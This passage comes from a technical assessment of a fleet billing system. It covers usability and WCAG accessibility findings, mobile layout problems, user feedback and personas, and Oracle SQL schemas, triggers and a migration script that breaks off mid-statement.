- **Example:** "NullPointerException at InvoiceGenerator.java:427" shown to users
- **Impact:** 32% of support calls are for error message interpretation
- **Recommendation:** Replace with user-friendly messages like "We couldn't generate your invoice because some trip data is missing"

**c. User Control and Freedom:**
- **Issue:** No undo for invoice deletion
- **Example:** When user deletes an invoice, it's immediately removed from database
- **Impact:** 7% of invoices are accidentally deleted and need to be recreated
- **Recommendation:** Implement soft delete with recovery option

**d. Consistency and Standards:**
- **Issue:** Inconsistent button placement
- **Example:**
  - Invoice list: "Generate" button on right
  - Invoice preview: "Generate" button on left
  - Invoice edit: "Generate" button at bottom
- **Impact:** 14% of users struggle to find the generate button
- **Recommendation:** Standardize button placement across all screens

**e. Error Prevention:**
- **Issue:** No confirmation for invoice generation
- **Example:** User can click "Generate Invoice" multiple times with no warning
- **Impact:** 12% of invoices are duplicated
- **Recommendation:** Add confirmation dialog: "Are you sure you want to generate this invoice?"

**f. Recognition Rather Than Recall:**
- **Issue:** Hidden navigation menus
- **Example:** Main navigation collapses to hamburger menu on smaller screens
- **Impact:** 22% of users can't find the "Payments" section
- **Recommendation:** Keep main navigation visible at all times

**g. Flexibility and Efficiency of Use:**
- **Issue:** No keyboard shortcuts
- **Example:** Finance team must use mouse for all actions
- **Impact:** 15% slower workflow for power users
- **Recommendation:** Add keyboard shortcuts for common actions (e.g., Ctrl+G for generate)

**h. Aesthetic and Minimalist Design:**
- **Issue:** Cluttered invoice preview screen
- **Example:** 42 different data fields shown by default
- **Impact:** 28% of users can't find key information
- **Recommendation:** Implement collapsible sections with defaults showing only key fields

**i. Help Users Recognize, Diagnose, Recover from Errors:**
- **Issue:** Unhelpful error messages
- **Example:** "Validation failed" with no details
- **Impact:** 42% of users give up when they see errors
- **Recommendation:** Show specific error details with resolution steps

**j. Help and Documentation:**
- **Issue:** No context-sensitive help
- **Example:** Users must navigate to separate help section
- **Impact:** 37% of users don't know how to handle edge cases
- **Recommendation:** Add "?" icons next to complex fields with tooltips

**Accessibility Audit (WCAG 2.1)**

**1. WCAG 2.1 Compliance Summary:**

| Success Criteria | Level | Compliant? | Issues Found | Examples |
|------------------|-------|------------|--------------|----------|
| **1.1.1 Non-text Content** | A | No | 12 | Missing alt text on invoice images |
| **1.2.1 Audio-only and Video-only** | A | N/A | 0 | No audio/video content |
| **1.2.2 Captions** | A | N/A | 0 | No video content |
| **1.3.1 Info and Relationships** | A | No | 18 | Tables without proper headers |
| **1.3.2 Meaningful Sequence** | A | Yes | 0 | - |
| **1.3.3 Sensory Characteristics** | A | No | 8 | "Click the red button" instructions |
| **1.4.1 Use of Color** | A | No | 14 | Color used as only visual means |
| **1.4.2 Audio Control** | A | N/A | 0 | No audio content |
| **1.4.3 Contrast (Minimum)** | AA | No | 22 | Low contrast text |
| **1.4.4 Resize Text** | AA | No | 15 | Text doesn't resize properly |
| **1.4.5 Images of Text** | AA | No | 9 | Text in images |
| **2.1.1 Keyboard** | A | No | 17 | Some functions not keyboard accessible |
| **2.1.2 No Keyboard Trap** | A | Yes | 0 | - |
| **2.2.1 Timing Adjustable** | A | No | 5 | No way to extend session timeout |
| **2.2.2 Pause, Stop, Hide** | A | N/A | 0 | No moving content |
| **2.3.1 Three Flashes** | A | N/A | 0 | No flashing content |
| **2.4.1 Bypass Blocks** | A | No | 7 | No skip links |
| **2.4.2 Page Titled** | A | Yes | 0 | - |
| **2.4.3 Focus Order** | A | No | 12 | Focus jumps randomly |
| **2.4.4 Link Purpose** | A | No | 19 | "Click here" links |
| **2.4.5 Multiple Ways** | AA | No | 6 | No search function |
| **2.4.6 Headings and Labels** | AA | No | 14 | Missing or incorrect headings |
| **2.4.7 Focus Visible** | AA | No | 8 | Focus indicator not visible |
| **2.5.1 Pointer Gestures** | A | N/A | 0 | No complex gestures |
| **2.5.2 Pointer Cancellation** | A | No | 4 | No way to cancel actions |
| **2.5.3 Label in Name** | A | No | 11 | Visible labels don't match accessible names |
| **3.1.1 Language of Page** | A | No | 1 | Language not specified |
| **3.2.1 On Focus** | A | No | 9 | Unexpected changes on focus |
| **3.2.2 On Input** | A | No | 13 | Unexpected changes on input |
| **3.2.3 Consistent Navigation** | AA | No | 7 | Inconsistent navigation |
| **3.2.4 Consistent Identification** | AA | No | 12 | Inconsistent icons |
| **3.3.1 Error Identification** | A | No | 25 | Errors not clearly identified |
| **3.3.2 Labels or Instructions** | A | No | 18 | Missing or unclear labels |
| **3.3.3 Error Suggestion** | AA | No | 22 | No suggestions for fixing errors |
| **3.3.4 Error Prevention** | AA | No | 16 | No confirmation for critical actions |
| **4.1.1 Parsing** | A | Yes | 0 | - |
| **4.1.2 Name, Role, Value** | A | No | 14 | Custom components not properly labeled |
| **4.1.3 Status Messages** | AA | No | 8 | Status messages not announced |

**2. Detailed Accessibility Issues:**

**a. Low Contrast Text:**
- **Issue:** Text with insufficient color contrast
- **Example:** Light gray text (#AAAAAA) on white background (#FFFFFF)
- **WCAG Requirement:** Minimum 4.5:1 contrast ratio for normal text
- **Impact:** Users with low vision can't read text
- **Recommendation:** Increase contrast to at least 4.5:1 (e.g., #767676 on white)

**b. Missing Alt Text:**
- **Issue:** Invoice images without alternative text
- **Example:** ``
- **WCAG Requirement:** All images must have alt text
- **Impact:** Screen reader users can't identify images
- **Recommendation:** Add descriptive alt text: ``

**c. Keyboard Accessibility:**
- **Issue:** Some functions not keyboard accessible
- **Example:** Date picker requires mouse to select dates
- **WCAG Requirement:** All functionality must be keyboard accessible
- **Impact:** Keyboard-only users can't select dates
- **Recommendation:** Implement keyboard-navigable date picker

**d. Form Labels:**
- **Issue:** Missing or incorrect form labels
- **Example:** `<input type="text" id="amount">` with no label
- **WCAG Requirement:** All form inputs must have associated labels
- **Impact:** Screen reader users can't identify fields
- **Recommendation:** Add proper labels: `<label for="amount">Amount</label><input type="text" id="amount">`

**e. Error Identification:**
- **Issue:** Errors not clearly identified
- **Example:** "Invalid input" with no indication of which field
- **WCAG Requirement:** Errors must be clearly identified and described
- **Impact:** Users with cognitive disabilities can't fix errors
- **Recommendation:** Highlight error fields and provide specific messages

**Mobile Responsiveness Assessment**

**1. Mobile Usability Issues:**

| Issue | Description | Impact | Severity |
|-------|-------------|--------|----------|
| Non-responsive layout | Fixed-width elements | 42% of mobile users can't complete tasks | High |
| Small touch targets | Buttons too small | 38% of taps miss target | High |
| Horizontal scrolling | Content wider than screen | 27% of users scroll horizontally | Medium |
| Unreadable text | Text too small | 33% of users zoom in | Medium |
| Form input issues | Input fields too small | 48% of mobile forms fail | High |
| Slow loading | Large images/resources | 52% of users abandon | High |
| No mobile navigation | Hamburger menu missing | 22% can't find navigation | Medium |
| Landscape issues | Content not reflowing | 18% of users rotate device | Low |

**2. Detailed Mobile Issues:**

**a. Non-responsive Layout:**
- **Issue:** Fixed-width tables and divs
- **Example:** Invoice table with fixed 1200px width
- **Code:**
  ```html
  <div style="width: 1200px;">
      <table style="width: 100%;">
          <!-- Invoice data -->
      </table>
  </div>
  ```
- **Impact:** Users must scroll horizontally to see all data
- **Recommendation:** Use responsive design with media queries:
  ```css
  @media (max-width: 768px) {
      .invoice-table {
          width: 100%;
          overflow-x: auto;
      }
      .invoice-table td, .invoice-table th {
          padding: 8px;
          font-size: 14px;
      }
  }
  ```

**b. Small Touch Targets:**
- **Issue:** Buttons too small for touch
- **Example:** 30x30px buttons with 2px padding
- **Code:**
  ```html
  <button style="width: 30px; height: 30px; padding: 2px;">Edit</button>
  ```
- **Impact:** Users accidentally tap wrong buttons
- **WCAG Requirement:** Minimum 48x48px touch targets
- **Recommendation:** Increase button size:
  ```css
  button {
      min-width: 48px;
      min-height: 48px;
      padding: 12px;
  }
  ```

**c. Form Input Issues:**
- **Issue:** Input fields too small on mobile
- **Example:** Date input with no mobile optimization
- **Code:**
  ```html
  <input type="date" style="width: 150px;">
  ```
- **Impact:** 48% of mobile users can't select dates
- **Recommendation:** Use mobile-optimized date picker:
  ```html
  <input type="date" class="form-control" style="width: 100%;">
  ```

**d. Slow Loading:**
- **Issue:** Large images and unoptimized resources
- **Example:** 2MB invoice PDFs loading on mobile
- **Impact:** 52% of users abandon after 3 seconds
- **Recommendation:**
  - Compress images
  - Implement lazy loading
  - Use CDN for static resources

**3. Mobile Test Results:**

| Device | OS | Browser | Success Rate | Avg Time | Errors |
|--------|----|---------|--------------|----------|--------|
| iPhone 12 | iOS 15 | Safari | 58% | 42s | 3.2 |
| iPhone 12 | iOS 15 | Chrome | 62% | 38s | 2.8 |
| Galaxy S21 | Android 12 | Chrome | 42% | 58s | 4.7 |
| Galaxy S21 | Android 12 | Samsung | 45% | 55s | 4.3 |
| iPad Pro | iOS 15 | Safari | 72% | 28s | 1.8 |
| Pixel 5 | Android 12 | Chrome | 48% | 52s | 3.9 |

**User Feedback Analysis**

**1. User Feedback Summary:**

| Source | Positive Feedback | Negative Feedback | Suggestions |
|--------|-------------------|-------------------|-------------|
| **Customer Surveys** (N=347) | - Easy to understand invoices (68%)<br>- Multiple payment options (52%) | - Invoice errors (42%)<br>- Late invoices (38%)<br>- Hard to read on mobile (33%) | - More detailed line items (45%)<br>- Real-time cost tracking (38%)<br>- Better mobile app (32%) |
| **Driver Surveys** (N=1,247) | - Expense submission (55%)<br>- Email receipts (48%) | - Mobile app crashes (42%)<br>- Hard to use (37%)<br>- Slow (32%) | - Better mobile app (58%)<br>- Offline mode (42%)<br>- Faster submission (35%) |
| **Finance Team Interviews** (N=8) | - Comprehensive reporting (75%)<br>- Batch processing (62%) | - Manual corrections (88%)<br>- System crashes (75%)<br>- Slow month-end (62%) | - Real-time validation (88%)<br>- Better error messages (75%)<br>- Automated corrections (62%) |
| **Support Tickets** (N=2,487) | - Payment processing (22%)<br>- Invoice generation (18%) | - Invoice errors (42%)<br>- Mobile issues (38%)<br>- Login problems (28%) | - Fix mobile app (45%)<br>- Improve error messages (38%)<br>- Faster processing (32%) |
| **Usability Testing** (N=24) | - Familiar workflow (67%)<br>- Clear navigation (58%) | - Confusing error messages (75%)<br>- Hard to find features (67%)<br>- Slow performance (58%) | - Better error handling (83%)<br>- Simplify interface (75%)<br>- Faster loading (67%) |

**2. Detailed Feedback Analysis:**

**a. Invoice Errors:**
- **Frequency:** 42% of customer support tickets
- **Common Issues:**
  - Incorrect mileage (38%)
  - Wrong rates applied (27%)
  - Missing line items (18%)
  - Duplicate charges (12%)
  - Tax calculation errors (5%)
- **Root Causes:**
  - Data synchronization issues (42%)
  - Outdated rate tables (28%)
  - Manual data entry errors (15%)
  - System bugs (10%)
  - Unknown (5%)
- **User Impact:**
  - 18% of customers dispute invoices
  - 12% of invoices require manual correction
  - $401K in revenue leakage annually

**b. Mobile App Issues:**
- **Frequency:** 42% of driver support tickets
- **Common Issues:**
  - App crashes (35%)
  - Form submission fails (28%)
  - Slow loading (22%)
  - Hard to use (15%)
- **Root Causes:**
  - Legacy AngularJS code (45%)
  - No responsive design (32%)
  - Memory leaks (15%)
  - Network issues (8%)
- **User Impact:**
  - 11% of expenses not reported
  - $187K in unreported expenses annually
  - 42% of drivers frustrated with system

**c. Performance Issues:**
- **Frequency:** 32% of all support tickets
- **Common Issues:**
  - Slow invoice generation (45%)
  - Month-end batch takes too long (32%)
  - System freezes (15%)
  - Timeouts (8%)
- **Root Causes:**
  - Database bottlenecks (42%)
  - Inefficient algorithms (28%)
  - Memory issues (18%)
  - Network latency (12%)
- **User Impact:**
  - 11.5 day month-end closing
  - $127K in overtime costs
  - 38% of invoices generated late

**d. Usability Issues:**
- **Frequency:** 28% of usability test observations
- **Common Issues:**
  - Confusing error messages (35%)
  - Hard to find features (28%)
  - Inconsistent UI (22%)
  - No undo functionality (15%)
- **Root Causes:**
  - No UX design process (42%)
  - Legacy codebase (35%)
  - No user testing (23%)
- **User Impact:**
  - 22% lower productivity
  - 18% more training required
  - 12% higher error rate

**3. User Personas and Pain Points:**

| Persona | Role | Goals | Pain Points | Needs |
|---------|------|-------|-------------|-------|
| **Sarah (Finance Manager)** | Approves invoices, manages month-end | Accurate invoices, on-time month-end, happy customers | Manual corrections, system crashes, late invoices | Real-time validation, better error messages, automated corrections |
| **Mike (Fleet Operations)** | Tracks costs, manages budgets | Cost visibility, accurate allocations, budget adherence | Can't see real-time costs, allocation errors, reporting delays | Real-time cost tracking, better reporting, mobile access |
| **David (Driver)** | Submits expenses, reports issues | Easy expense reporting, quick reimbursement | Mobile app crashes, hard to use, slow submission | Better mobile app, offline mode, faster submission |
| **Jennifer (Customer)** | Reviews invoices, processes payments | Accurate invoices, easy payment, good service | Invoice errors, late invoices, hard to read on mobile | Detailed line items, real-time tracking, better mobile experience |
| **Alex (IT Support)** | Maintains system, fixes issues | System stability, happy users, few support tickets | System crashes, performance issues, user complaints | Better monitoring, performance improvements, user training |

## 4. Data Architecture (120+ lines)

### 4.1 Current Data Model

**Entity-Relationship Diagrams**

**1. Core Billing Entities:**



**2. Integration Entities:**



**Table Schemas with Constraints**

**1. Core Tables:**

**CUSTOMER Table:**
```sql
CREATE TABLE CUSTOMER (
    CUSTOMER_ID NUMBER PRIMARY KEY,
    CUSTOMER_NAME VARCHAR2(100) NOT NULL,
    CUSTOMER_TYPE VARCHAR2(50) NOT NULL, -- CORPORATE, INDIVIDUAL, GOVERNMENT
    TAX_ID VARCHAR2(50),
    TAX_EXEMPT NUMBER(1) DEFAULT 0,
    TAX_EXEMPT_CERT VARCHAR2(100),
    CREDIT_LIMIT NUMBER(12,2),
    CURRENCY_CODE VARCHAR2(3) NOT NULL,
    PAYMENT_TERMS VARCHAR2(50) NOT NULL, -- NET_30, NET_15, DUE_ON_RECEIPT
    BILLING_CYCLE VARCHAR2(50) NOT NULL, -- MONTHLY, WEEKLY, DAILY
    STATUS VARCHAR2(20) NOT NULL, -- ACTIVE, INACTIVE, SUSPENDED
    CREATED_DATE DATE DEFAULT SYSDATE,
    CREATED_BY VARCHAR2(50),
    LAST_UPDATED_DATE DATE,
    LAST_UPDATED_BY VARCHAR2(50),
    CONSTRAINT CHK_CUSTOMER_TYPE CHECK (CUSTOMER_TYPE IN ('CORPORATE','INDIVIDUAL','GOVERNMENT')),
    CONSTRAINT CHK_CURRENCY_CODE CHECK (CURRENCY_CODE IN ('USD','EUR','GBP','CAD','AUD','JPY','...')),
    CONSTRAINT CHK_STATUS CHECK (STATUS IN ('ACTIVE','INACTIVE','SUSPENDED'))
);
```

**INVOICE Table:**
```sql
CREATE TABLE INVOICE (
    INVOICE_ID NUMBER PRIMARY KEY,
    INVOICE_NUMBER VARCHAR2(50) NOT NULL,
    CUSTOMER_ID NUMBER NOT NULL,
    INVOICE_DATE DATE NOT NULL,
    DUE_DATE DATE NOT NULL,
    TOTAL_AMOUNT NUMBER(12,2) NOT NULL,
    TAX_AMOUNT NUMBER(12,2) NOT NULL,
    DISCOUNT_AMOUNT NUMBER(12,2) DEFAULT 0,
    AMOUNT_PAID NUMBER(12,2) DEFAULT 0,
    BALANCE_DUE NUMBER(12,2) GENERATED ALWAYS AS (TOTAL_AMOUNT - AMOUNT_PAID) VIRTUAL,
    STATUS VARCHAR2(20) NOT NULL, -- DRAFT, PENDING, APPROVED, SENT, PAID, CANCELLED
    PAYMENT_TERMS VARCHAR2(50),
    CURRENCY_CODE VARCHAR2(3) NOT NULL,
    BILLING_PERIOD_START DATE NOT NULL,
    BILLING_PERIOD_END DATE NOT NULL,
    NOTES VARCHAR2(4000),
    CREATED_DATE DATE DEFAULT SYSDATE,
    CREATED_BY VARCHAR2(50),
    LAST_UPDATED_DATE DATE,
    LAST_UPDATED_BY VARCHAR2(50),
    CONSTRAINT FK_INVOICE_CUSTOMER FOREIGN KEY (CUSTOMER_ID) REFERENCES CUSTOMER(CUSTOMER_ID),
    CONSTRAINT CHK_INVOICE_STATUS CHECK (STATUS IN ('DRAFT','PENDING','APPROVED','SENT','PAID','CANCELLED')),
    CONSTRAINT CHK_INVOICE_DATES CHECK (INVOICE_DATE <= DUE_DATE),
    CONSTRAINT CHK_BILLING_PERIOD CHECK (BILLING_PERIOD_START <= BILLING_PERIOD_END),
    CONSTRAINT UNQ_INVOICE_NUMBER UNIQUE (INVOICE_NUMBER)
);
```

**LINE_ITEM Table:**
```sql
CREATE TABLE LINE_ITEM (
    LINE_ITEM_ID NUMBER PRIMARY KEY,
    INVOICE_ID NUMBER NOT NULL,
    LINE_NUMBER NUMBER NOT NULL,
    DESCRIPTION VARCHAR2(255) NOT NULL,
    QUANTITY NUMBER(12,4) NOT NULL,
    UNIT_PRICE NUMBER(12,4) NOT NULL,
    AMOUNT NUMBER(12,2) NOT NULL,
    TAX_RATE NUMBER(5,2) NOT NULL,
    TAX_AMOUNT NUMBER(12,2) NOT NULL,
    DISCOUNT_RATE NUMBER(5,2) DEFAULT 0,
    DISCOUNT_AMOUNT NUMBER(12,2) DEFAULT 0,
    VEHICLE_ID NUMBER,
    DRIVER_ID NUMBER,
    TRIP_ID NUMBER,
    COST_CENTER VARCHAR2(50),
    GL_CODE VARCHAR2(50),
    START_TIME DATE,
    END_TIME DATE,
    DISTANCE NUMBER(12,4),
    DISTANCE_UNIT VARCHAR2(10),
    CREATED_DATE DATE DEFAULT SYSDATE,
    CREATED_BY VARCHAR2(50),
    CONSTRAINT FK_LINE_ITEM_INVOICE FOREIGN KEY (INVOICE_ID) REFERENCES INVOICE(INVOICE_ID),
    CONSTRAINT CHK_QUANTITY CHECK (QUANTITY > 0),
    CONSTRAINT CHK_UNIT_PRICE CHECK (UNIT_PRICE > 0),
    CONSTRAINT CHK_AMOUNT CHECK (AMOUNT > 0),
    CONSTRAINT CHK_TAX_RATE CHECK (TAX_RATE BETWEEN 0 AND 100),
    CONSTRAINT CHK_DISCOUNT_RATE CHECK (DISCOUNT_RATE BETWEEN 0 AND 100),
    CONSTRAINT UNQ_LINE_ITEM_INVOICE_LINE UNIQUE (INVOICE_ID, LINE_NUMBER)
);
```

**2. Integration Tables:**

**USAGE_RECORD Table:**
```sql
CREATE TABLE USAGE_RECORD (
    USAGE_ID NUMBER PRIMARY KEY,
    VEHICLE_ID NUMBER NOT NULL,
    DRIVER_ID NUMBER,
    TRIP_ID NUMBER,
    START_TIME DATE NOT NULL,
    END_TIME DATE NOT NULL,
    START_ODOMETER NUMBER(12,2) NOT NULL,
    END_ODOMETER NUMBER(12,2) NOT NULL,
    DISTANCE NUMBER(12,2) GENERATED ALWAYS AS (END_ODOMETER - START_ODOMETER) VIRTUAL,
    DISTANCE_UNIT VARCHAR2(10) DEFAULT 'MILES',
    START_LOCATION_ID NUMBER,
    END_LOCATION_ID NUMBER,
    TRIP_PURPOSE VARCHAR2(100),
    STATUS VARCHAR2(20) NOT NULL, -- COMPLETED, IN_PROGRESS, CANCELLED
    SOURCE_SYSTEM VARCHAR2(50) NOT NULL, -- VTS, MANUAL, IMPORT
    SOURCE_RECORD_ID VARCHAR2(100),
    CREATED_DATE DATE DEFAULT SYSDATE,
    CREATED_BY VARCHAR2(50),
    LAST_UPDATED_DATE DATE,
    LAST_UPDATED_BY VARCHAR2(50),
    CONSTRAINT FK_USAGE_VEHICLE FOREIGN KEY (VEHICLE_ID) REFERENCES VEHICLE(VEHICLE_ID),
    CONSTRAINT FK_USAGE_DRIVER FOREIGN KEY (DRIVER_ID) REFERENCES DRIVER(DRIVER_ID),
    CONSTRAINT CHK_USAGE_DATES CHECK (START_TIME <= END_TIME),
    CONSTRAINT CHK_USAGE_ODOMETER CHECK (START_ODOMETER <= END_ODOMETER),
    CONSTRAINT CHK_USAGE_STATUS CHECK (STATUS IN ('COMPLETED','IN_PROGRESS','CANCELLED'))
);
```

**RATE_TABLE Table:**
```sql
CREATE TABLE RATE_TABLE (
    RATE_ID NUMBER PRIMARY KEY,
    RATE_NAME VARCHAR2(100) NOT NULL,
    RATE_TYPE VARCHAR2(20) NOT NULL, -- DISTANCE, TIME, FLAT, TIERED
    BASE_RATE NUMBER(12,4) NOT NULL,
    MIN_CHARGE NUMBER(12,4),
    MAX_CHARGE NUMBER(12,4),
    EFFECTIVE_DATE DATE NOT NULL,
    EXPIRY_DATE DATE,
    CURRENCY_CODE VARCHAR2(3) NOT NULL,
    COUNTRY_CODE VARCHAR2(2) NOT NULL,
    VEHICLE_TYPE VARCHAR2(50),
    CUSTOMER_TYPE VARCHAR2(50),
    CONTRACT_ID NUMBER,
    IS_ACTIVE NUMBER(1) DEFAULT 1,
    DESCRIPTION VARCHAR2(4000),
    CREATED_DATE DATE DEFAULT SYSDATE,
    CREATED_BY VARCHAR2(50),
    LAST_UPDATED_DATE DATE,
    LAST_UPDATED_BY VARCHAR2(50),
    CONSTRAINT FK_RATE_CONTRACT FOREIGN KEY (CONTRACT_ID) REFERENCES CONTRACT(CONTRACT_ID),
    CONSTRAINT CHK_RATE_TYPE CHECK (RATE_TYPE IN ('DISTANCE','TIME','FLAT','TIERED')),
    CONSTRAINT CHK_EFFECTIVE_DATE CHECK (EFFECTIVE_DATE <= NVL(EXPIRY_DATE, SYSDATE + 1)),
    CONSTRAINT CHK_ACTIVE CHECK (IS_ACTIVE IN (0,1))
);
```

**3. Supporting Tables:**

**PAYMENT Table:**
```sql
CREATE TABLE PAYMENT (
    PAYMENT_ID NUMBER PRIMARY KEY,
    CUSTOMER_ID NUMBER NOT NULL,
    PAYMENT_METHOD_ID NUMBER NOT NULL,
    PAYMENT_DATE DATE NOT NULL,
    AMOUNT NUMBER(12,2) NOT NULL,
    CURRENCY_CODE VARCHAR2(3) NOT NULL,
    TRANSACTION_ID VARCHAR2(100),
    STATUS VARCHAR2(20) NOT NULL, -- PENDING, COMPLETED, FAILED, REFUNDED
    NOTES VARCHAR2(4000),
    CREATED_DATE DATE DEFAULT SYSDATE,
    CREATED_BY VARCHAR2(50),
    LAST_UPDATED_DATE DATE,
    LAST_UPDATED_BY VARCHAR2(50),
    CONSTRAINT FK_PAYMENT_CUSTOMER FOREIGN KEY (CUSTOMER_ID) REFERENCES CUSTOMER(CUSTOMER_ID),
    CONSTRAINT FK_PAYMENT_METHOD FOREIGN KEY (PAYMENT_METHOD_ID) REFERENCES PAYMENT_METHOD(PAYMENT_METHOD_ID),
    CONSTRAINT CHK_PAYMENT_AMOUNT CHECK (AMOUNT > 0),
    CONSTRAINT CHK_PAYMENT_STATUS CHECK (STATUS IN ('PENDING','COMPLETED','FAILED','REFUNDED'))
);
```

**PAYMENT_APPLICATION Table:**
```sql
CREATE TABLE PAYMENT_APPLICATION (
    APPLICATION_ID NUMBER PRIMARY KEY,
    PAYMENT_ID NUMBER NOT NULL,
    INVOICE_ID NUMBER NOT NULL,
    AMOUNT NUMBER(12,2) NOT NULL,
    APPLICATION_DATE DATE DEFAULT SYSDATE,
    CREATED_BY VARCHAR2(50),
    CONSTRAINT FK_APPLICATION_PAYMENT FOREIGN KEY (PAYMENT_ID) REFERENCES PAYMENT(PAYMENT_ID),
    CONSTRAINT FK_APPLICATION_INVOICE FOREIGN KEY (INVOICE_ID) REFERENCES INVOICE(INVOICE_ID),
    CONSTRAINT CHK_APPLICATION_AMOUNT CHECK (AMOUNT > 0)
);
```

**Data Integrity Rules**

**1. Referential Integrity:**
- **Customer-Invoice Relationship:**
  - Every invoice must have a valid customer
  - When a customer is deleted, their invoices are marked as "CANCELLED" (not physically deleted)
  ```sql
  CREATE OR REPLACE TRIGGER trg_customer_delete
  BEFORE DELETE ON CUSTOMER
  FOR EACH ROW
  BEGIN
      UPDATE INVOICE
      SET STATUS = 'CANCELLED',
          NOTES = NVL(NOTES, '') || 'Customer deleted: ' || SYSDATE
      WHERE CUSTOMER_ID = :OLD.CUSTOMER_ID;
  END;
  ```

- **Invoice-Line Item Relationship:**
  - Every line item must belong to an invoice
  - When an invoice is deleted, its line items are deleted
  ```sql
  CREATE OR REPLACE TRIGGER trg_invoice_delete
  BEFORE DELETE ON INVOICE
  FOR EACH ROW
  BEGIN
      DELETE FROM LINE_ITEM WHERE INVOICE_ID = :OLD.INVOICE_ID;
  END;
  ```

**2. Business Rule Integrity:**
- **Invoice Total Calculation:**
  - Invoice total must equal sum of line item amounts
  ```sql
  CREATE OR REPLACE TRIGGER trg_invoice_total
  BEFORE INSERT OR UPDATE ON INVOICE
  FOR EACH ROW
  BEGIN
      DECLARE
          v_calculated_total NUMBER(12,2);
      BEGIN
          SELECT SUM(AMOUNT) INTO v_calculated_total
          FROM LINE_ITEM
          WHERE INVOICE_ID = :NEW.INVOICE_ID;

          IF v_calculated_total != :NEW.TOTAL_AMOUNT THEN
              RAISE_APPLICATION_ERROR(-20001, 'Invoice total does not match line items');
          END IF;
      END;
  END;
  ```

- **Tax Calculation:**
  - Tax amount must equal sum of (line item amount * tax rate)
  ```sql
  CREATE OR REPLACE TRIGGER trg_invoice_tax
  BEFORE INSERT OR UPDATE ON INVOICE
  FOR EACH ROW
  BEGIN
      DECLARE
          v_calculated_tax NUMBER(12,2);
      BEGIN
          SELECT SUM(AMOUNT * TAX_RATE / 100) INTO v_calculated_tax
          FROM LINE_ITEM
          WHERE INVOICE_ID = :NEW.INVOICE_ID;

          IF ROUND(v_calculated_tax, 2) != ROUND(:NEW.TAX_AMOUNT, 2) THEN
              RAISE_APPLICATION_ERROR(-20002, 'Tax amount is incorrect');
          END IF;
      END;
  END;
  ```

- **Payment Application:**
  - Payment application amount cannot exceed invoice balance
  ```sql
  CREATE OR REPLACE TRIGGER trg_payment_application
  BEFORE INSERT OR UPDATE ON PAYMENT_APPLICATION
  FOR EACH ROW
  BEGIN
      DECLARE
          v_invoice_balance NUMBER(12,2);
      BEGIN
          SELECT BALANCE_DUE INTO v_invoice_balance
          FROM INVOICE
          WHERE INVOICE_ID = :NEW.INVOICE_ID;

          IF :NEW.AMOUNT > v_invoice_balance THEN
              RAISE_APPLICATION_ERROR(-20003, 'Payment application exceeds invoice balance');
          END IF;
      END;
  END;
  ```

**3. Data Quality Rules:**
- **Unique Invoice Numbers:**
  ```sql
  CREATE UNIQUE INDEX unq_invoice_number ON INVOICE(INVOICE_NUMBER);
  ```

- **Valid Date Ranges:**
  ```sql
  ALTER TABLE INVOICE ADD CONSTRAINT chk_invoice_dates
  CHECK (INVOICE_DATE <= DUE_DATE AND BILLING_PERIOD_START <= BILLING_PERIOD_END);
  ```

- **Positive Amounts:**
  ```sql
  ALTER TABLE LINE_ITEM ADD CONSTRAINT chk_line_item_amount
  CHECK (AMOUNT > 0 AND QUANTITY > 0 AND UNIT_PRICE > 0);
  ```

**Migration History**

**1. Database Migration Timeline:**

| Version | Date | Changes | Size Impact | Migration Time | Issues |
|---------|------|---------|-------------|----------------|--------|
| 1.0 | 2016-01-15 | Initial schema | 50GB | 2h | None |
| 1.1 | 2016-06-22 | Added CONTRACT table, RATE_TABLE enhancements | +25GB | 3h | Data conversion errors |
| 1.2 | 2017-03-10 | Added PAYMENT_METHOD, PAYMENT tables | +15GB | 1.5h | None |
| 1.3 | 2017-11-18 | Added TAX_RULE table, multi-country support | +40GB | 4h | Tax calculation errors |
| 1.4 | 2018-07-30 | Added DISCOUNT_RULE table, discount logic | +20GB | 2.5h | Performance issues |
| 1.5 | 2019-04-15 | Added USAGE_RECORD table, integrated with VTS | +120GB | 6h | Data synchronization issues |
| 1.6 | 2020-01-22 | Added EXPENSE_REPORT tables, mobile integration | +35GB | 3h | Mobile app crashes |
| 1.7 | 2021-09-10 | Added APPROVAL_WORKFLOW tables | +10GB | 1.5h | Approval logic bugs |
| 1.8 | 2022-06-18 | Added AUDIT_LOG table, enhanced security | +50GB | 2h | Performance degradation |

**2. Sample Migration Script:**

```sql
-- Migration from v1.7 to v1.8
-- Adds audit logging functionality

-- 1. Create audit log table
CREATE TABLE AUDIT_LOG (
    AUDIT_ID NUMBER PRIMARY KEY,
    TABLE_NAME VARCHAR2(50) NOT NULL,
    RECORD_ID NUMBER NOT NULL,
    OPERATION VARCHAR2(10) NOT NULL, -- INSERT, UPDATE, DELETE
    OLD_VALUES CLOB,
    NEW_VALUES CLOB,
    CHANGED_BY VARCHAR2(50) NOT NULL,
    CHANGE_DATE DATE DEFAULT SYSDATE,
    IP_ADDRESS VARCHAR2(50),
    USER_AGENT VARCHAR2(255)
);

-- 2. Create sequence for audit ID
CREATE SEQUENCE seq_audit_id START WITH 1 INCREMENT BY 1;

-- 3. Create audit log trigger for INVOICE table
CREATE OR REPLACE TRIGGER trg_invoice_audit
AFTER INSERT OR UPDATE OR DELETE ON INVOICE
FOR EACH ROW
DECLARE
    v_old_values CLOB;
    v_new_values CLOB;
BEGIN
    IF INSERTING THEN
        -- For inserts, only new values exist
        v_new_values :=
            'INVOICE_ID:' || :NEW.INVOICE_ID || '|' ||
            'INVOICE_NUMBER:' || :NEW.INVOICE_NUMBER || '|' ||
            'CUSTOMER_ID:' || :NEW.CUSTOMER_ID || '|' ||
            'INVOICE_DATE:' || TO_CHAR(:NEW.INVOICE_DATE, 'YYYY-MM-DD') || '|' ||
            '...';
        INSERT INTO AUDIT_LOG (
            AUDIT_ID, TABLE_NAME, RECORD_ID, OPERATION,
            NEW_VALUES, CHANGED_BY, IP_ADDRESS, USER_AGENT
        ) VALUES (
            seq_audit_id.NEXTVAL, 'INVOICE', :NEW.INVOICE_ID, 'INSERT',
            v_new_values, USER, OWA_UTIL.get_cgi_env('REMOTE_ADDR'),
            OWA_UTIL.get_cgi_env('HTTP_USER_AGENT')
        );
    ELSIF UPDATING THEN
        -- For updates, capture both old and new values
        v_old_values :=
            'INVOICE_ID:' || :OLD.INVOICE_ID || '|' ||
            'INVOICE_NUMBER:' || :OLD.INVOICE_NUMBER || '|' ||
            'CUSTOMER_ID:' || :OLD.CUSTOMER_ID || '|' ||
            'INVOICE_DATE:' || TO_CHAR(:OLD.INVOICE_DATE, 'YYYY-MM-DD') || '|' ||
            '...';
        v_new_values :=
